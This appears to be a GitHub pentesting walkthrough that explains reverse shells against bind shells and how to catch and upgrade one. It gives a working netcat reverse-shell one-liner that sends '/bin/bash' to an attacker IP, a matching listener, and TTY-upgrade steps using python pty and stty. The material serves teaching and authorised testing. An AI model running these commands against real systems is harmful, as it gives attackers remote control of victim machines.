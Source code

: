 # Reverse Shell Playbook/Walkthrough

## What is a reverse shell
A reverse shell is an activity that all attackers are looking to utilize as an objective in every engagement. There are many ways to 'pop' or 'catch' a reverse shell, and ultimately force a reverse shell to come back to you from a victim, but what even is that?

So normally when you have a service running on a machine, like Apache or IIS, you'll have an open port on that device, like port 80. As long as the network is configured with the proper port forwarding rules and VLAN configuration, users will be able to interact with the port over the network and gain access to their favorite website. This is what we'd consider a bind shell. In other words if I open a bind shell, I'm opening a port on the victim and connecting directly to it.

But there's a problem...

## Reasons why we use reverse shell over bind shell
A bind shell works great when you're directly connected to the same network that your victim is connected to. But what if this attack is happening over the internet? What if the victim is on another VLAN?

This is where a reverse shell comes in handy because you can force the victim to send a shell back to your attacker's machine, so it's essentially reversed. The attacker box becomes the server in this scenario so you never have to open a port on the victim.

You tell the victim to send a shell **_back to you_**.

This essentially bypasses the firewall issue that you'd have with a bind shell.

Without port forwarding rules already configured, from an external perspective a bind shell would be completely useless. 

By not requiring a port forwarding rule because firewalls allow all traffic outbound by default (known as egress fw rules), we don't have to worry about the firewall blocking us and our reverse shell will make it's way out of the network the same way every other packet does, via routing.

All we have to do is make sure we have our own local port forwarding rule on our local router forwarding the reverse shell from the WAN to our internal IP. It is possible to see this reverse shell and grab your public IP from the payload, but as a pentester doing ethical work, we're okay with that.

## Process for Reverse shell
- Listener (think: _'thing that catches reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)
- Payload (think: _'thing that sends you a reverse shell'_)

## Basic reverse shell
Open up port forwarding if doing attack over the internet

Attacker:
```bash
nc -nlvp 4444
```
Victim:
```bash
nc -e /bin/bash 192.168.122.209 4444
```
#### Additional Shell Info
It's very infrequent that you'd see a machine have netcat (nc) already installed, and even more rare to see one old enough to still support -e (yeah they figured out that's malicious obviously) so you'll likely need to use another type of shell. Determining the right shell to use could be it's own walkthrough.

![https://www.revshells.com/](https://www.revshells.com/)

#### Lazy upgrade way, works great on windows
```bash
sudo apt install rlwrap
rlwrap nc -lvp 4444
```
## Enable fully-interactive shell 
##### (allows tab complete, arrows keys, etc)(ONLY WORKS ON LINUX, use rlwrap in front of listener for windows)

#### Validate python or python3 on the machine
```bash
python -V
python3 -V
```
#### Make sure to use the correct version of python for next command!
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
SHELL=/bin/bash script -q /dev/null (if your machine doesn't have python)
```
#### Next, background the shell to start sending raw input, this bypasses your local interpreter (shell) and sends your keystrokes to the reverse shell (victim)
```
Ctrl + Z (background the shell)
stty raw -echo; fg
reset
```
If it asks what TERM to use, set it to **xterm-256color**, or whatever your attacker machine's $TERM is set to. 

### Validate Terminal Type
```
echo $TERM
export TERM=xterm-256color
echo $TERM
```
You should now be able to clear your terminal and use text editors like nano and vim.

### Validate Shell for User
```
echo $SHELL
export SHELL=/bin/bash
echo $SHELL
```
### Validate size of screen
```
echo $TERM && tput lines && tput cols (run on attacker)
stty rows 38 columns 116 (run on victim)
```
Note: you'll want to run the second command with numbers from the first command, so you're setting the victim's shell size to your local kali machine's shell size. 
This helps prevent wordwrap from distorting the shell and will help other tools like nano and vim work as expected.

Note2: It's possible to have a scenario where your shell and your nano/vim sizes don't align on a target. You can use the 'w' command to validate the size of the terminal through a guessing process.

You should now have a fully functional shell, where even sending a ^C (Ctrl + C, normally intended to stop processes) won't cause the shell to die. 
